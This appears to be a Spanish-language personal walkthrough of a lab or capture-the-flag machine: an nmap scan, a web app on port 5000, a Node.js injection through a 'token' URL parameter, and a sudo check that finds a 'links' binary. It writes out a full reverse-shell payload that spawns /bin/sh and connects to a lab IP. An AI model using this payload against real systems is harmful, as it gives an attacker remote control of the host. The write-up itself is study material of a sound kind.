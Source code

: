 Hacemos el escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20231002101011.png]]
Y esto es lo que corre por el puerto 5000:
![[Mis apuntes/ANEXOS/Pasted image 20231002101152.png]]
Y si ponemos un texto en ese cuadro y damos a enter vemos que lo imprime por pantalla:
![[Mis apuntes/ANEXOS/Pasted image 20231002101235.png]]
Pero vemos que nos cambia la url cada vez que añadimos algún parámetro:
![[Mis apuntes/ANEXOS/Pasted image 20231002101402.png]]
Probamos en cambiar los parámetros de la url y la web crashea:
![[Mis apuntes/ANEXOS/Pasted image 20231002101603.png]]
Y en esta web tenemos unas instrucciones de un payload que podemos utilizar para entablar una reverse shell:
https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
![[Mis apuntes/ANEXOS/Pasted image 20231002105041.png]]

```bash
192.168.0.24:5000/?name=mario&token=(function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(443, '192.168.0.63', function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```
Si esto lo ponemos en el apartado de token, vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20231002105150.png]]
![[Mis apuntes/ANEXOS/Pasted image 20231002105158.png]]
Si ejecutamos un sudo -l vemos que podemos ejecutar un binario llamado links:
![[Mis apuntes/ANEXOS/Pasted image 20231002105434.png]]
Y esto es lo que hace:
![[Mis apuntes/ANEXOS/Pasted image 20231002105816.png]]
![[Mis apuntes/ANEXOS/Pasted image 20231002105518.png]]

![[Mis apuntes/ANEXOS/Pasted image 20231002105905.png]]

![[Mis apuntes/ANEXOS/Pasted image 20231002105919.png]]
